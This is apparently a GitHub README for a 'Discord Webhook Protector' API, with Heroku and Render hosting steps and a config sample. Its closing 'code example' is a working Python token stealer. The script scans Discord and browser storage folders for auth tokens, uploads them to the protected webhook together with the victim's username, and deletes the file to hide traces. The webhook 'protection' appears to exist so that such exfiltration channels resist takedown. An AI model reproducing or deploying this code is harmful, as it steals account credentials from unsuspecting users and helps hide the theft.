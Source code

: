 

<h1 align="center">
  <a id="top"></a>Discord Webhook Protector 🔰
</h1>

<h2 align="center">
✅Discord Webhook Protection
</h2>

---

## <a id="features"></a>🔰 〢 Features

```
> Easy to setup!
> Configurable!
> Completely *free* and stays online *24/7*
> Accepts json, discord embeds and files!
> Ratelimits unauthorized requests!
> Accepting only post requests!
> Impossible to delete webhook
> Webhook protected by totp so very hard to spam webhook even if they http debug!
```
---

### <a id="heroku"></a>📁 〢 Hosting the API with Heroku

1. Create an account on [Heroku.com](https://heroku.com) (Yes all of this is **free**)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. Open [config.json](https://github.com/mahyarx/DWP/blob/main/config.json) and put in your webhook at the top
4. Now you need a key, open cmd in the directory and type the following ⇣
```sh-session
$ cd test
$ py keyGen.py
>>> Your key is: ...
>>> Copied key to clipboard!
```
5. Paste your generated key in [config.json](https://github.com/mahyarx/DWP/blob/main/config.json)
6. Open a new cmd in the directory and type `npm i`
7. Now follow these steps carefully ⇣

```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
...
$ heroku domains
...
```

8. Done! After typing `heroku domains` you should get something in the console like **shrouded-fjord-36366.herokuapp.com**. This is your api with your undeletable/unspammable webhook!

#### If you get an error when doing `"git push heroku main"` that looks like this

```sh
$ first issue error: failed to push some refs to 'https://git.heroku.com/app-name.git'
```
Then run `"git push heroku master"`

ㅤ

If you make some changes in the code and want to update the api on heroku, simply run `npm run deploy` to push out the updates \
If any bugs occur please report them or try and see if restarting the app by typing `heroku restart` works!
<center><a href=#content> Back To Content </a> </center>

---

### <a id="render"></a>📁 〢 Hosting the API with Render

1. Setup an account on [Render](https://dashboard.render.com/register)
2. [Fork](https://github.com/mahyarx/DWP/fork) This Repo **(Dont Forget to Make it Private And Edit the config.js File)**
3. Go to [This](https://dashboard.render.com/select-repo?type=web) Link and connect your GitHub Account
4. Select the repo you just made 
  ![image](https://user-images.githubusercontent.com/86944806/170194672-2a21aed0-cc1b-4efb-88d5-c835034c2e70.png)
5. On the next screen enter a uniqe name for it **(this name will be in your api)**
6. Select **Node** as your environment
![image](https://user-images.githubusercontent.com/86944806/170195377-fbc7a054-5b8b-4255-aaea-5a209d6c65af.png)
7. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170195784-9df18d5f-c8e5-4694-bafc-57e59fe0ee0e.png)
8. Thats it! It will build it in some time now **(Approx 5 mins)**
9. Your api url should look like this **(https://youruninqename.onrender.com)**
![image](https://user-images.githubusercontent.com/86944806/170196327-c44fa2c1-619f-43c4-b5aa-a121a98493bf.png)

<center><a href=#content> Back To Content </a> </center>

### <a id="testing"></a> 🧪〢Testing the Api

For testing that your api works, open test folder and edit the test .py file by putting your api url and passsword then open cmd in the directory and type the following ⇣

```sh-session
$ cd .\test
...
$ py test.py
```

It should've made a post request to the api uploading itself and sending "it works!" to the webhook
<center><a href=#content> Back To Content </a> </center>

---

### <a id="alive"></a>🟢〢Keeping It Alive 24/7

Free hosting will sleep your API after inactivity. It is 15 mins for Render. Now ofc we aren't gonna keep using our webhook so we can use a site like [Statuscake](statuscake.com) which is free.

***Note:** Heroku gives only 550 hours for free in a month whereas Render gives 750 hours (There are 744 hours in a month). So If u use this method on heroku then your api will be offline for last 8 days of the month. (Unless You have more hours on heroku by entering your credit card or buying) And so I recommend you use Render the host the API*

1. Sign up on [Statuscake](https://app.statuscake.com/Try)
2. Create a new [UpTime Test](https://app.statuscake.com/AddSite.php)
![image](https://user-images.githubusercontent.com/86944806/170201838-fc68aa1a-a554-4786-856b-ccf6b7d6170a.png)
3. Head down to ![image](https://user-images.githubusercontent.com/86944806/170203552-041cf979-c32b-4ed6-9051-f6d738949027.png) and follow what I've done. **(Don't Forget to❌the code 401)**
![image](https://user-images.githubusercontent.com/86944806/170203426-ed45ac96-d46c-4176-b977-e3164c57e6e9.png)
4. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170204712-47185645-0e81-4538-9829-5fca1ffa9e20.png)
5. Add if u want though its not needed **(click ok if u don't want to add)**
![image](https://user-images.githubusercontent.com/86944806/170204283-6de3d140-ef94-4cbf-88e0-1ad8da0872b8.png)
6. Thats it! Your webhook is now gonna be live 24/7
<center><a href=#content> Back To Content </a> </center>

---

### <a id="settings"></a> ⚙ 〢 Settings

The config and what the options do

```json
{
  "webhook": "https://discord.com/api/webhooks/0123456789/abcdefghijklmnopqrstuvwxyz", //your discord webhook
  "pass32": "K4ZVUQTSIRMDOWKRGU2WQQTZJM======" /*a key encoded in base32, use the keyGen in ./test or see https://github.com/bellstrand/totp-generator#how-to-use for more*/,
  "ratelimit": true, //if you want it to ratelimit unauthorized requests or not
  "rateLimitTimeout": 30000, //amount of milliseconds an ip gets ratelimited (Default: 30000 --> 30 seconds)
  "port": 3000 //port
}
```
<center><a href=#content> Back To Content </a> </center>

---

### <a id="code-example"></a>🎈 〢 Code example

Example use of the api hosted on heroku

```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
_file = os.getenv('temp') + os.sep + 'tokens.txt'

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    with open(_file, 'a') as f:
                        f.write(token)

requests.post(api, headers={"Authorization": key}, data={"content": f'Successfully grabbed tokens from {os.getlogin()}:'}) #send the text to webhook
requests.post(api, headers={"Authorization": key}, files={"upload_file": open(_file, 'rb')}) #send text file with tokens in it to the webhook
os.remove(_file) #delete traces
```

> 

<p align="center"><a href=#top>Back to Top</a></p>
